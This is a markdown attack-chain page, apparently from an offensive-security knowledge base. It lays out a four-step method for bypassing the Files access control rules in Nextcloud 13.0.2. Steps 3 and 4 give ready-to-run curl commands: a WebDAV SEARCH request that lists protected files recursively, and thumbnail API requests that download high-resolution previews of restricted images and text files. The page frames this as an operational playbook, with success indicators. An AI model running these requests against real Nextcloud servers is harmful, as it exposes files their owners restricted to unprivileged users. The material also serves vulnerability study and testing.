

# Nextcloud-File-Access-Control-Bypass-via-WebDAV-Search-and-Thumbnail-API

Multi-stage attack chain demonstrating how to bypass file access control rules in Nextcloud's Files access control app by using WebDAV search to list protected files and the files API to access high-resolution thumbnails of images and previews of text files, exposing sensitive information to unprivileged users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Nextcloud 13.0.2 or similar version on Linux (e.g., Ubuntu 18.04 LTS)
- Enabled Files access control app v1.3.0 and Files automated tagging app v1.3.0
- WebDAV service accessible
- Ports: Standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- Administrative credentials for Nextcloud setup
- Unprivileged user account
- Network access to Nextcloud instance

## Detailed Attack Procedures

### Step 1: Setup Nextcloud Environment
procedure: [[procedures/Setup-Nextcloud-with-Automated-Tagging-and-Access-Control-Rules]]

**Objective**: Install Nextcloud, enable apps, and configure tagging and access rules to protect files based on group membership.

**Instructions**: Follow the procedure to install Nextcloud via Snap, enable the required apps, create a 'Secret' tag, and set up rules that tag admin-owned files and deny access to non-admins.

**Expected Output**: Access control rules active, files will be tagged and restricted upon creation.

**Success Indicators**:
- Apps enabled successfully
- Tag and rules configured without errors
- Test file creation tags correctly

### Step 2: Create and Share Protected Folder
procedure: [[procedures/Create-and-Share-Protected-Folder]]

**Objective**: Create a folder structure with protected files as admin and share it with an unprivileged user without edit rights.

**Instructions**: Use WebDAV or web interface to create folders and files, then share the top-level folder with the unprivileged user.

**Expected Output**: Folder shared, files tagged as 'Secret' and access denied if attempted directly.

**Success Indicators**:
- Files created and tagged
- Share link or permission granted to unprivileged user
- Direct access to files denied for unprivileged user

### Step 3: Perform WebDAV Search to List Files
procedure: [[procedures/Perform-WebDAV-Search-to-List-Files]]

**Objective**: As the unprivileged user, use WebDAV SEARCH to recursively list all files in the shared folder, bypassing access controls.

**Instructions**: Authenticate as the unprivileged user and execute [[commands/webdav-search-curl]] to download the file list as XML.

```bash
curl -u user https://example.com/remote.php/dav/files/user/ -X SEARCH -H "Content-Type: text/xml" --data "<?xml version=\"1.0\"?><d:searchrequest xmlns:d=\"DAV:\" xmlns:oc=\"http://owncloud.org/ns\"><d:basicsearch><d:select><d:prop><oc:fileid/><oc:size/><oc:mimetype/><d:displayname/><d:getcontenttype/></d:prop></d:select><d:from><d:scope><d:href>/</d:href><d:depth>infinity</d:depth></d:scope></d:from><d:where><d:like><d:prop><d:displayname/></d:prop><d:literal>*</d:literal></d:like></d:where><d:orderby><d:prop><d:displayname/></d:prop></d:orderby></d:basicsearch></d:searchrequest>" -o data.xml
```

**Expected Output**: XML file (data.xml) listing all files recursively, including protected ones with paths and MIME types.

**Success Indicators**:
- XML contains file paths like Secret_Folder/Secret_Subfolder/Secret_Picture.jpeg
- MIME types visible for identification (e.g., image/jpeg)

### Step 4: Access Protected File Thumbnails via API
procedure: [[procedures/Access-Protected-File-Thumbnails-via-API]]

**Objective**: Use the file list to fetch high-resolution thumbnails of images and previews of text files via the files API, bypassing restrictions.

**Instructions**: Identify target files from the XML, then use [[commands/thumbnail-image-curl]] for images and [[commands/thumbnail-text-curl]] for text files.

For an image:

```bash
curl -u user 'https://example.com/index.php/apps/files/api/v1/thumbnail/1212/750/Secret_Folder/Secret_Subfolder/Secret_Picture.jpeg' -H 'Content-Type: application/x-www-form-urlencoded' > Secret_Picture.jpeg
```

For a text file (if owner viewed it):

```bash
curl -u user 'https://example.com/index.php/apps/files/api/v1/thumbnail/4096/4096/Secret_Folder/Secret_Subfolder/Secret_Text.txt' -H 'Content-Type: application/x-www-form-urlencoded' > Secret_Text.png
```

**Expected Output**: High-res JPEG for images or PNG preview for text files containing sensitive content.

**Success Indicators**:
- Downloaded files open without errors
- Image shows full protected content
- Text preview renders readable sensitive data

## Attack Chain Summary

### Key Achievements

1. Bypassed access controls to list all recursive files via WebDAV SEARCH
2. Accessed high-resolution previews of protected images without permission checks
3. Retrieved text file contents as images if pre-generated by owner
4. Exposed sensitive information to unprivileged users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[File and Directory Discovery]] File and Directory Discovery
- [[Automated Collection]] Automated Collection

### MITRE ATT&CK Tactics

- [[Discovery]] Discovery

---

*Last updated: 2023-10-01T00:00:00Z*
